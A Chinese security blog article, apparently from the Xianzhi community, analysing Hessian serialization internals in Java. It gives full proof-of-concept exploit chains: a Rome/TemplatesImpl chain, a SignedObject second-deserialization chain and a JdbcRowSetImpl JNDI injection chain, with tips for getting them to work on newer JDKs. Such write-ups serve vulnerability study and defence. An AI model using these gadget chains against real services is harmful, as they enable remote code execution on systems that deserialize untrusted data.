# Hessian反序列化流程及漏洞浅析-先知社区

> **来源**: https://xz.aliyun.com/news/17603  
> **文章ID**: 17603

---

## 前言

Hessian是一个基于RPC的高性能二进制远程传输协议。  
在Java中，Hessian的使用方法非常简单，它使用Java语言接口定义了远程对象，并通过序列化和反序列化将对象转为Hessian二进制格式进行传输。

项目依赖:

```
<!-- hessian -->  
<dependency>  
    <groupId>com.caucho</groupId>  
    <artifactId>hessian</artifactId>  
    <version>4.0.63</version>  
</dependency>
```

## 反序列化流程分析

### 序列化

`HessianOutput`，`Hessian2Output`都是抽象类`AbstractHessianOutput`的实现

二者的`writeObject`方法一致：  
根据传入的`object`的类型，获取对应需要的序列化器  
然后调用序列化器的`writeObject`方法序列化数据。

```
public void writeObject(Object object) throws IOException {  
    if (object == null) {  
        this.writeNull();  
    } else {  
        Serializer serializer = this._serializerFactory.getSerializer(object.getClass());  
        serializer.writeObject(object, this);  
    }  
}
```

调用`com.caucho.hessian.io.SerializerFactory#getSerializer`方法获取对应序列化器。  
先判断`_cachedSerializerMap`中是否有缓存，如果有直接取出。  
没有缓存就调用`com.caucho.hessian.io.SerializerFactory#loadSerializer`方法进行加载序列化器；  
最后将得到的序列化器存储到缓存的map中。  


在`com.caucho.hessian.io.SerializerFactory#loadSerializer`方法中。  
判断当前传入的`Object`是否属于某些已定义好的接口。  
如果存在，就生成对应的序列化器。  
如果不存在，就调用`com.caucho.hessian.io.SerializerFactory#getDefaultSerializer`方法针对自定义类加载默认的序列化器。  
  
共实现了`26`个序列化器  


在`com.caucho.hessian.io.SerializerFactory#getDefaultSerializer`方法中，可以看到在默认情况下如果`_isEnableUnsafeSerializer`属性为`true`，并且传入的`class: ·cl`没有`writeReplace`方法,  
那么最后会创造一个`UnsafeSerializer`来作为序列化器。  


`UnsafeSerializer#writeObject`方法兼容了 Hessian/Hessian2 两种协议的数据结构，会调用`writeObjectBegin` 方法开始写入数据头，并且根据返回的`ref`来确定后续序列化数据的情况。  


`HessianOutput`，会直接调用父类的`com.caucho.hessian.io.AbstractHessianOutput#writeObjectBegin`方法，可以看到直接写入`77`作为Map的标志，固定返回`-2`赋值给`writeObject`方法  
  
之后就调用`com.caucho.hessian.io.UnsafeSerializer#writeObject10`方法，来逐个对字段进行序列化。并已`writeMapEnd`作为收尾。  


`Hessian2Output`重写了`writeObjectBegin`方法，可以写自定义类型的数据，返回`ref`为-1。调用 `writeDefinition20` 和 `Hessian2Output#writeObjectBegin` 方法写入自定义数据，不将其标记为 Map 类型。  


小结：  
总的来说：  
二者在序列化自定义类的过程中均使用`UnsafeSerializer`序列化器，`Hessian1`和`Hessian2`协议在处理首字段的时候，有了细微的差异。

* `HessianOutput` 在序列化的过程中默认将序列化结果处理成一个Map
* `Hessian2Output`在序列化的过程中可以序列化自定义的类

### 反序列化

`HessianInput`，`Hessian2Input`都是抽象类`AbstractHessianInput`的实现类

#### Hessian1

`com.caucho.hessian.io.HessianInput#readObject()`方法中读取序列化结果的第一个字符为`77`，即代表`map`。  


跟进`com.caucho.hessian.io.SerializerFactory#readMap`方法  
  
先调用`com.caucho.hessian.io.SerializerFactory#getDeserializer(java.lang.String)`方法，  
首先如果传入的`type`为空，则直接返回`null`  
接着再判断缓存中是否有对应的序列化器，  
如果没有就尝试自己去加载获取序列化器。  


这里由于是最外层封装的`map`，获取的`type`为`''`，默认返回回到`com.caucho.hessian.io.SerializerFactory#readMap`方法，直接初始化一个`MapDeserializer`实例类，从而调用`com.caucho.hessian.io.MapDeserializer#readMap`方法来反序列化内部的数据。

如果是内部其他类型的类，首先调用`com.caucho.hessian.io.SerializerFactory#loadSerializedClass`方法，根据类名加载对应的类。  
  
接着调用`com.caucho.hessian.io.SerializerFactory#getDeserializer(java.lang.Class)`方法，来获取对应的序列化器。  


接着`com.caucho.hessian.io.SerializerFactory#loadDeserializer`方法，  
  
在该方法中加载默认的自定义类。可以看到与序列化过程中获取加载器的流程相近，不再赘述。  
`com.caucho.hessian.io.SerializerFactory#getDefaultDeserializer`  


#### Hessian2

这里以我们自定义类`Person`反序列化为例，首先在`com.caucho.hessian.io.Hessian2Input#readObject()`方法中，获取对应的`tag`为`67`，因此调用`com.caucho.hessian.io.Hessian2Input#readObjectDefinition`方法  


会进一步调用`com.caucho.hessian.io.SerializerFactory#getObjectDeserializer(java.lang.String, java.lang.Class)`方法来获取对应的序列化器。  
  
一步一步步入，发现会执行到`com.caucho.hessian.io.SerializerFactory#getDeserializer(java.lang.String)`方法，这里与序列化过程中获取序列化器过程一样，最终会获取到一个`UnsafeDeserializer`序列化器。  


回到`readObjectDefinition`方法， 获取自定义类的相关属性，并将其封装为`def`属性。  


最后会调用`com.caucho.hessian.io.UnsafeDeserializer#readObject`方法，将封装好的字段通过`unSafe`进行反射赋值。  


`instantiate` 使用 unsafe 实例的 `allocateInstance` 直接创建类实例。  


#### MapDeserializer

`Hessian 1.0` 默认最外层会使用`MapDeserializer`来继续反序列化数据。  
`Hessian 2.0` 需要指定传入的类的类型为`Map`, 才会使用`MapDeserializer`来反序列化数据

在`com.caucho.hessian.io.MapDeserializer#readMap`的方法中：  
创建得到一个`map`类型，之后通过一个循环判断 `in.isEnd()` 方法检查输入流是否结束。  
在循环中，通过 `in.readObject()` 方法读取键值对，并通过`map.put`进行赋值。这里调用的还是`HessianInput`的`readObject`方法。  
最后调用`in.readEnd`结束`map`的反序列化赋值。



显然`map.put`

* 对于`HashMap`会触发`key.hashCode()`、`key.equals(k)`，
* 对于`TreeMap`会触发`key.compareTo()`

## 漏洞分析

Hessian反序列化`Map`类型的对象的时候，会自动调用其`put`方法，而`put`方法会产生各种相关利用链打法。

典型就是`Rome`的相关链子，通过`HashMap` 中`key`会触发`hash`方法，会进一步触发`key.hashcode`。  


触发`EqualsBean`的`hashcode`方法  


接着触发`toStringBean`的`toString`方法，  
会反射调用该类所有的无参`get`方法。从而实现漏洞利用  


#### TemplatesImpl 失败原因&&二次反序列化

##### 单独打TemplatesImpl 失败原因分析

根据`Rome`的调用链，有如下`POC`

```
public class HessianTemplatesImpl {  
    public static void main(String[] args) throws Exception {  
        TemplatesImpl templates = generateTemplateImpl();  
  
        ToStringBean toStringBean = new ToStringBean(Templates.class, templates);  
  
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);  
  
        HashMap map = makeMap(equalsBean,"reus09");  
        byte[] s = HessianTest.serialize(map);  
        System.out.println(s);  
  
        System.out.println((HashMap) HessianTest.deserialize(s));  
  
    }  
  
    public static HashMap<Object, Object> makeMap ( Object v1, Object v2 ) throws Exception {  
        HashMap<Object, Object> s = new HashMap<>();  
        setValue(s, "size", 2);  
        Class<?> nodeC;  
        try {  
            nodeC = Class.forName("java.util.HashMap$Node");  
        }  
        catch ( ClassNotFoundException e ) {  
            nodeC = Class.forName("java.util.HashMap$Entry");  
        }  
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);  
        nodeCons.setAccessible(true);  
  
        Object tbl = Array.newInstance(nodeC, 2);  
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));  
        setValue(s, "table", tbl);  
        return s;  
    }  
}
```

代码执行后，无命令回显。  
Debug分析，来到`com.sun.syndication.feed.impl.ToStringBean#toString(java.lang.String)`方法，发现存在报错空指针。  
  
跟踪报错栈帧，往上看，报错位于`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#defineTransletClasses`方法中，发现此时的`_tfactory`没有被反序列化赋值，为null，从而报错空指针。



这是因为在通过`UnsafeDeserializer`序列化器调用`getFieldMap`方法的时候，会对类的属性判断是否为`Transient`类型，是否为`static`类型。  
如果是`transient`或者`static`类型的变量，则无法进行反序列化。  


这里赋值的`_tfactory`恰好为`transient`类型所修饰，因此无法被反序列化。  


##### 二次反序列化打TemplatesImpl

这里`SignedObject`类利用内部的`content`变量可以存储原生序列化的字节流，从而可以保存`TemplatesImpl`恶意类的相关属性。

`SignedObject`类常被用来作为二次反序列化。  
它的构造函数中将传入的`object`类通过原生序列化转化为字节流存储到`content`变量中。  
并且它的`getObject`方法中又会对`content`属性进行原生的反序列化。  


并且`SignedObject`的`getObject`方法也满足`ToStringBean#toString`方法，也满足`Rome`链的使用情况，因此可以用来打二次反序列化。

给定如下POC:

```
public class HessianTwoDeserial {  
    public static void main(String[] args) throws Exception {  
        TemplatesImpl templates = generateTemplateImpl();  
  
        ToStringBean toStringBean = new ToStringBean(Templates.class, templates);  
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(123);  
        setValue(badAttributeValueExpException,"val",toStringBean);  
  
        // 初始化SignedObject类  
        KeyPairGenerator keyPairGenerator;  
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");  
        keyPairGenerator.initialize(1024);  
        KeyPair keyPair = keyPairGenerator.genKeyPair();  
        PrivateKey privateKey = keyPair.getPrivate();  
        Signature signingEngine = Signature.getInstance("DSA");  
  
        SignedObject signedObject = new SignedObject(badAttributeValueExpException,privateKey,signingEngine);  
  
        ToStringBean toStringBean1 = new ToStringBean(SignedObject.class, signedObject);  
  
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean1);  
  
        HashMap hashMap = makeMap(equalsBean, "reus09");  
  
        byte[] s = HessianTest.serialize(hashMap);  
        System.out.println(s);  
  
        System.out.println((HashMap) HessianTest.deserialize(s));  
    }  
  
    public static HashMap<Object, Object> makeMap ( Object v1, Object v2 ) throws Exception {  
        HashMap<Object, Object> s = new HashMap<>();  
        setValue(s, "size", 2);  
        Class<?> nodeC;  
        try {  
            nodeC = Class.forName("java.util.HashMap$Node");  
        }  
        catch ( ClassNotFoundException e ) {  
            nodeC = Class.forName("java.util.HashMap$Entry");  
        }  
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);  
        nodeCons.setAccessible(true);  
  
        Object tbl = Array.newInstance(nodeC, 2);  
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));  
        setValue(s, "table", tbl);  
        return s;  
    }  
}
```



#### JdbcRowSetImpl链

回顾一下`JdbcRowSetImpl`链，  
在`getParameterMetaData`方法中，会调用`connect`方法  
  
在`connect`方法中，会对传入的`dataSourceName`值进行`lookup`查询，触发`JNDI`注入  


显然，由于存在`getDataBaseMetaData`的无参get方法，显然可以用于触发`ToStringBean`的`toString`方法，因此有如下`payload`：

```
public class HessianJNDI implements Serializable {  
  
    public static void main(String[] args) throws Exception { 
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");  
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");  
  
  
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();  
        Vector<String> v = new Vector<>(1);  
  
        String url = "rmi://127.0.0.1:1099/EXP";  
        jdbcRowSet.setDataSourceName(url);  
        jdbcRowSet.setMatchColumn("reus09");  
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);  
        EqualsBean equalsBean = new EqualsBean(toStringBean.getClass(), toStringBean);  
  
        HashMap hashMap = makeMap(equalsBean, "reus09");  
  
        byte[] s = HessianTest.serialize(hashMap);  
        System.out.println(s);  
  
        System.out.println((HashMap) HessianTest.deserialize(s));  
  
    }  
    public static void setValue(Object obj, String name, Object value) throws NoSuchFieldException, IllegalAccessException {  
        Field field = obj.getClass().getDeclaredField(name);  
        field.setAccessible(true);  
        field.set(obj, value);  
    }  
  
    public static Object getValue(Object obj, String name) throws NoSuchFieldException, IllegalAccessException {  
        Field field = obj.getClass().getDeclaredField(name);  
        field.setAccessible(true);  
        return field.get(obj);  
    }  
  
    public static HashMap<Object, Object> makeMap ( Object v1, Object v2 ) throws Exception {  
        HashMap<Object, Object> s = new HashMap<>();  
        setValue(s, "size", 2);  
        Class<?> nodeC;  
        try {  
            nodeC = Class.forName("java.util.HashMap$Node");  
        }  
        catch ( ClassNotFoundException e ) {  
            nodeC = Class.forName("java.util.HashMap$Entry");  
        }  
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);  
        nodeCons.setAccessible(true);  
  
        Object tbl = Array.newInstance(nodeC, 2);  
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));  
        setValue(s, "table", tbl);  
        return s;  
    }  
}
```

小debug:  
值得注意的是我在`payload`中添加了`jdbcRowSet.setMatchColumn("reus09");`语句。  
由于我本地测试环境为`arm`架构的mac，因此使用的`jdk`版本较高，需要手动设置`trustURLCodebase`的相关属性。  
并且`JdbcRowSetImpl`类的相关属性获取也存在问题。  
我们需要的`getDatabaseMetaData`是第五个获取，  
但是在获取第四个字段`matchColumnNames`的时候，反射执行`getMatchColumnNames`方法会产生空指针报错，导致反射获取我们需要的方法无法执行。  




分析`getMatchColumnNames`方法，我们需要对`strMatchColumns`属性进行赋值，否则就会报错。  


找到`setMatchColumn`方法，传入任意的字符，即可对`strMatchColumns`属性进行赋值。  


因此，在高版本的JDK中，针对`JdbcRowSetImpl`与`Rome`链结合使用，在学习的过程中，可能需要稍微对字段继续优化、debug一下。

## 小结

本文分析了`Hessian`以及`Hessian2`两种序列化和反序列化的流程。  
总的来说，`Hessian`会针对传入的`map`类型的变量进行反序列化的时候，会执行`map.put`方法，从而可以作为`source`触发点，触发其他相关的反序列链子。  
并以二次反序列化和`JdbcRowSetImpl`两个链作为例子进行了演示。

## Reference

[Hessian 反序列化知一二  素十八](https://su18.org/post/hessian)

[从源码角度分析hessian特别的原因](https://xz.aliyun.com/news/16341)

[2022虎符CTF-Java部分](https://y4tacker.github.io/2022/03/21/year/2022/3/2022%E8%99%8E%E7%AC%A6CTF-Java%E9%83%A8%E5%88%86/#%E5%88%A9%E7%94%A8%E4%B8%80%EF%BC%9ASignedObject%E5%AE%9E%E7%8E%B0%E4%BA%8C%E6%AC%A1%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96)

[Java安全学习——Hessian反序列化漏洞 - 枫のBlog](https://goodapple.top/archives/1193)

[【Web】浅聊Java反序列化之玩转Hessian反序列化的前置知识hessian 反序列化-CSDN博客](https://blog.csdn.net/uuzeray/article/details/136621706)
